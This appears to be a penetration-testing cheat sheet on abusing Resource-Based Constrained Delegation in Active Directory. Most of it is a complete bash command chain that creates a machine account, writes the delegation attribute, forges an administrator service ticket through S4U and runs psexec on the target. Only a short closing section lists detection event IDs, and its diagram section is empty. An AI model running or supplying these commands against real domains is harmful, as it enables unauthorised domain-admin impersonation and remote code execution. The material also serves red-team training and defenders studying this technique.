

# Resource-Based Constrained Delegation (RBCD)

### Affected object / attribute
**`msDS-AllowedToActOnBehalfOfOtherIdentity`** on the **target computer object**.

### Concept (deep)
The target’s attribute names the delegate. If you can write it (GenericWrite/WriteDacl, or LDAP relay), set your machine account → **S4U2Self + S4U2Proxy** → impersonate DA to the target. Needs **MAQ>0** or an existing writable computer**.

### Attack flow (Mermaid)


### Exhaustive commands
```bash
# ── Create a machine account ─────────────────────────────────────────
impacket-addcomputer -computer-name 'PWN$' -computer-pass 'Pwn123!' \
  -dc-ip 10.10.10.5 corp.local/lowpriv:'Password123!'

# ── Configure RBCD ──────────────────────────────────────────────────
python3 rbcd.py -delegate-from 'PWN$' -delegate-to 'TARGET$' \
  -action write -dc-ip 10.10.10.5 corp.local/lowpriv:'Password123!'

# ── S4U chain ────────────────────────────────────────────────────────
impacket-getST -spn 'cifs/target.corp.local' -impersonate administrator \
  'corp.local/PWN$:Pwn123!'

# ── Use the ticket ──────────────────────────────────────────────────
export KRB5CCNAME=administrator@cifs_target.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass corp.local/administrator@target.corp.local
```

### Detection
**5136** on computer objects for `msDS-AllowedToActOnBehalfOfOtherIdentity`; **4741** new machine accounts; **4769 S4U2Proxy** chains.

---
